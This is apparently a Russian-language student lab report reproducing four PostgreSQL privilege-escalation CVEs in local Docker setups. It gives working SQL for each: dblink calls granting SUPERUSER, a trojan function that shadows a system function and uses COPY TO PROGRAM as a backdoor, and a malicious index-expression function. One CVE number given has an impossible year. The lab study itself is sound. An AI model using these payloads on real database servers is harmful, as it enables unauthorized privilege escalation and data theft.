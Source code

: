 # Лабораторная работа 1

---

## 1 CVE-2207-6601

Установили докер, склонировали репозиторий

![alt text](./img/image.png)

![alt text](./img/image-1.png)

Подключились командой от user1

```shell
psql postgresql://user1:password@127.0.0.1:5432/db1
```

Вывели данные из таблицы

```
SELECT dblink_exec('host=localhost dbname=secret_db', 'ALTER USER user1 WITH SUPERUSER;');
\c secret_db;
SELECT * from secret_table;
```

![alt text](./img/image-2.png)

## 2 CVE-2018-10915

Подключились к серверу, вывели данные с таблицы

```
CREATE DATABASE secret_db;
ALTER SYSTEM SET default_transaction_read_only TO on;
SELECT pg_reload_conf();
```

![alt text](./img/image-3.png)

```
psql postgresql://user1:password@127.0.0.1:5432/db1
SELECT * FROM dblink('host=192.168.233.3,localhost port=5433,5432 user=postgres password=password target_session_attrs=read-write dbname=secret_db', 'SELECT * FROM secret_table') AS secret_table(c text);
```

![alt text](./img/image-4.png)

## 3 CVE-2020-14349

Собираем

![alt text](./img/image-5.png)

![alt text](./img/image-6.png)

Функция для скрытого повышения привелегий или же просто бэкдор для бд

```
CREATE OR REPLACE FUNCTION public.pg_get_replica_identity_index(int)
RETURNS regclass
LANGUAGE plpgsql
AS $$
BEGIN
    COPY (SELECT 1) TO PROGRAM '/pg12/postgres/bin/psql -c "ALTER USER user1 WITH SUPERUSER;" postgres';
    RETURN pg_catalog.pg_get_replica_identity_index($1);
END;
$$;
```

![alt text](./img/image-7.png)

```
\c secret_db
select * from secret_table;
```

![alt text](./img/image-8.png)

## 4 CVE-2022-1552

Собираем

![alt text](./img/image-9.png)

![alt text](./img/image-10.png)

Повышаем привелегии, эксплуатируем

```
CREATE TABLE bttest_a AS SELECT i as id FROM generate_series(1, 1000) i;
ALTER TABLE bttest_a OWNER TO regress_bttest_role;
```

```
CREATE OR REPLACE FUNCTION ifun(int8) RETURNS int8 AS $$
BEGIN
 if current_user = 'postgres' then
 ALTER USER user1 WITH superuser;
 end if;
 RETURN $1;
END;
$$ LANGUAGE plpgsql IMMUTABLE;
CREATE INDEX bttest_a_expr_idx ON bttest_a ((ifun(id) + ifun(0)))
 WHERE ifun(id + 10) > ifun(10);
alter function ifun volatile;
select pg_sleep(2);
```

```
\c secret_db
SELECT * FROM secret_table;
```

![alt text](./img/image-11.png)
